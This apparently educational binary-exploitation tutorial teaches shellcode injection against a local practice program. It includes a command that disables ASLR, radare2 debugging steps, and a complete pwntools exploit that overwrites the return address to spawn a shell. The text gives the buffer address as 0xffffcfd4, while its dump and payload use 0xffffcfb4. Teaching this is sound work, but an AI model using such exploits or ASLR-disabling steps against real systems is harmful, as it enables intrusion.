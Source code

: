 ```yaml
---
description: Running your own code
---
```


# Shellcode

In real exploits, it's not particularly likely that you will have a `win()` function lying around - shellcode is a way to run your **own** instructions, giving you the ability to run arbitrary commands on the system.

**Shellcode** is essentially **assembly instructions**, except we input them into the binary; once we input it, we overwrite the return pointer to hijack code execution and point at our own instructions!

> Note: I promise you can trust me but you should never _ever_ run shellcode without knowing what it does. Pwntools is safe and has almost all the shellcode you will ever need.

The reason shellcode is successful is that Von Neumann architecture \(the architecture used in most computers today\) does not differentiate between **data** and **instructions** - it doesn't matter where or what you tell it to run, it will attempt to run it.  Therefore, even though our input is data, the computer _doesn't know that_ - and we can use that to our advantage.

{% file src=".gitbook/assets/shellcode.zip" caption="Shellcode" %}

### Disabling ASLR

ASLR is a security technique, and while it is not specifically designed to combat shellcode, it involves randomising certain aspects of memory \(we will talk about it in much more detail later\). This randomisation can make shellcode exploits like the one we're about to do more less reliable, so we'll be disabling it for now.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

> Again, you should never run commands if you don't know what they do.

### Finding the Buffer in Memory

Let's debug `vuln` using `radare2` and work out where in memory the buffer starts; this is where we want to point the return pointer to.

```text
$ r2 -d -A vuln

[0xf7fd40b0]> s sym.unsafe ; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

This value that gets printed out is a **local variable** - due to its size, it's fairly likely to be the buffer. Let's set a breakpoint just after `gets()` and find the exact address.

```text
[0x08049172]> dc
Overflow me
<<Found me>>                    <== This was my input
hit breakpoint at: 80491a8
[0x080491a8]> px @ ebp - 0x134
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....

[...]
```

It appears to be at `0xffffcfd4`; if we run the binary multiple times, it should remain where it is \(if it doesn't, make sure ASLR is disabled!\).

### Finding the Padding

Now we need to calculate the padding until the return pointer. We'll use the De Bruijn sequence as explained in the previous blog post.

```text
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
312
```

Wehey the padding is 312 bytes!

### Putting it all together

In order for the shellcode to be correct, we're going to set `context.binary` to our binary; this grabs stuff like the arch, os and bits and enables pwntools to provide us with accurate shellcode.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

> Note: We can use just `process()` because once `context.binary` is set it is assumed to use that process

Now we can use pwntools' awesome shellcode functionality to make it _incredibly_ simple.

```python
payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode
```

Yup, that's it. Now let's send it off and use `p.interactive()`, which enables us to communicate to the shell.

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> If you're getting an EOFError, print out the shellcode and try to find it in memory - the stack address may be wrong

```text
$ python3 exploit.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3606
[*] Overflow me
[*] Switching to interactive mode
$ whoami
ironstone
$ ls
exploit.py  source.c  vuln
```

And it works! Awesome.

### Final Exploit

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

### Summary

* We injected shellcode, a series of assembly instructions, when prompted for input
* We then hijacked code execution by overwriting the saved return pointer on the stack and modified it to point to our shellcode
* Once the return pointer got popped into EIP, it pointed at our shellcode
* This caused the program to execute our instructions, giving us \(in this case\) a shell for arbitrary command execution

